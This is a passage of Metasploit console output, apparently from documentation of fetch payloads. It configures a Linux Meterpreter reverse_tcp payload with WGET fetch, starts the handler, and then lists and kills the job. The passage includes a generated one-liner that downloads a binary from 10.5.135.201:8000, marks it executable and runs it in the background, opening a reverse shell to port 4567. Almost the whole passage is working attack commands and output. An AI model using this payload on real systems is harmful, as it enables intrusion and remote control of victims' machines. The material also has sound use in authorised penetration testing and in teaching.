 
View the full module info with the info, or info -d command.

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
`

`msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_COMMAND WGET
FETCH_COMMAND => WGET
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVHOST 10.5.135.201
FETCH_SRVHOST => 10.5.135.201
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVPORT 8000
FETCH_SRVPORT => 8000
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LHOST 10.5.135.201
LHOST => 10.5.135.201
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LPORT 4567
LPORT => 4567
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > generate -f raw
wget -qO ./YXeSdwsoEfOH http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YXeSdwsoEfOH; ./YXeSdwsoEfOH &
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
`

`msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > to_handler
[*] wget -qO ./YBybOrAmkV http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YBybOrAmkV; ./YBybOrAmkV &
[*] Payload Handler Started as Job 0
[*] Fetch Handler listening on 10.5.135.201:8000
[*] http server started
[*] Started reverse TCP handler on 10.5.135.201:4567 
`

`msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -l

Jobs
====

  Id  Name                    Payload                                     Payload opts
  --  ----                    -------                                     ------------
  0   Exploit: multi/handler  cmd/linux/http/x64/meterpreter/reverse_tcp  tcp://10.5.135.201:4567

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000

tcp        0      0 10.5.135.201:8000       0.0.0.0:*               LISTEN     

`

`msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > jobs -k 0
[*] Stopping the following job(s): 0
[*] Stopping job 0
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > netstat -ant | grep 8000
[*] exec: netstat -ant | grep 8000
